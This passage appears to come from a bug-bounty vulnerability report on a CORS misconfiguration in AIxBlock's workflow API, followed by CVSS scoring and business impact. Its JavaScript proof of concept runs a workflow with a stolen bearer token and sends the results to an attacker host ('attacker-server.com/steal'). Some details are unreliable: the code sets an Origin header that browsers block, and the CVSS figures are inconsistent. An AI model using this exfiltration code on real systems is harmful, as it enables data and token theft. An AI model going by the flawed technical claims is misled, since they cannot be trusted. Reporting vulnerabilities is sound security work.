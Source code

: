 ```javascript
        ]
    };
    
    try {
        // This request will succeed due to CORS misconfiguration
        const response = await fetch('https://workflow.aixblock.io/api/workflows', {
            method: 'POST',
            credentials: 'include',
            headers: {
                'Origin': 'https://evil-attacker.com',
                'Content-Type': 'application/json',
                'Authorization': 'Bearer ' + getStolenToken()
            },
            body: JSON.stringify(workflowPayload)
        });
        
        if (response.ok) {
            const result = await response.json();
            console.log('Successfully executed unauthorized workflow:', result);
            
            // Send stolen workflow data to attacker's server
            await fetch('https://attacker-server.com/steal', {
                method: 'POST',
                body: JSON.stringify(result)
            });
        }
    } catch (error) {
        console.error('Workflow execution exploit failed:', error);
    }
}
```

## **🔧 CVSS v3.1 Scoring - HIGH Severity**

### **Updated Scoring (CVSS 7.5)**
- **Attack Vector (AV)**: Network (0.85)
- **Attack Complexity (AC)**: Low (0.77)
- **Privileges Required (PR)**: None (0.85)
- **User Interaction (UI)**: Required (0.62)
- **Scope (S)**: Changed (0.0)
- **Confidentiality (C)**: High (0.56) - AI model data exposure
- **Integrity (I)**: High (0.56) - Unauthorized workflow execution
- **Availability (A)**: Low (0.22) - Potential workflow disruption

**CVSS Base Score**: **7.5 (High)**

### **Business Impact Justification**
1. **Unauthorized Workflow Execution** - Matches AIxBlock's Critical severity criteria
2. **AI Model Data Exposure** - Matches AIxBlock's Critical severity criteria  
3. **Automation Pipeline Access** - Core business function compromise
4. **Cross-Origin Data Exfiltration** - Sensitive workflow data theft
